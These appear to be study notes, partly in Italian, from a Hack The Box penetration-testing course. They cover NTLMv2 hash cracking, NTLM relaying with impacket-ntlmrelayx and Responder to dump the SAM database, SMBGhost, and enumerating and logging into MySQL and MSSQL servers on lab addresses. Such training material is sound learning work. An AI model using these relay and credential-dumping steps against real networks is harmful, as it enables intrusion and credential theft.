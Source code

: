 
The NTLMv2 hash was cracked. The password is P@ssword. If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx or Responder MultiRelay.py. Let us see an example using impacket-ntlmrelayx.

First, we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).

```
j4k1dibe@htb[/htb]$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```
Then we execute impacket-ntlmrelayx with the option --no-http-server, -smb2support, and the target machine with the option -t. By default, impacket-ntlmrelayx will dump the SAM database, but we can execute commands by adding the option -c.

`j4k1dibe@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`

# Latest SMB Vulnerabilities

Una vuln recente su SMB e' **SMBGhost ** 


# Attacking SQL Databases

MySQL e MSSQL sono database relazionali.

Host di database sono target perche' hanno dati sensibili.

## Enumeration
### Banner Grabbing
`j4k1dibe@htb[/htb]$ nmap -Pn -sV -sC -p1433 10.10.10.125`

## Authentication mechanisms
**MSSQL** supporta due modi di autentiazione: **WIndows Authentication** , molto integrata in Active Directorye **Mixed Mode**.
MySQL supporta username|password,

CVE-2012-2122 in MySQL 5.6.x ci faceva bypassare autenticazione usando la stessa password sbagliata


### Connecting to SQL Server
`j4k1dibe@htb[/htb]$ mysql -u julio -pPassword123 -h 10.129.20.13` linux
`j4k1dibe@htb[/htb]$ sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`  Linux
`j4k1dibe@htb[/htb]$ sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` Using **Windows Authentication**.

`j4k1dibe@htb[/htb]$ mssqlclient.py -p 1433 julio@10.129.203.7 ` Linux, MSSQL

`C:\htb> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30` Windows

## Execute Commands
A volte si possono eseguire comandi tramite il DB.
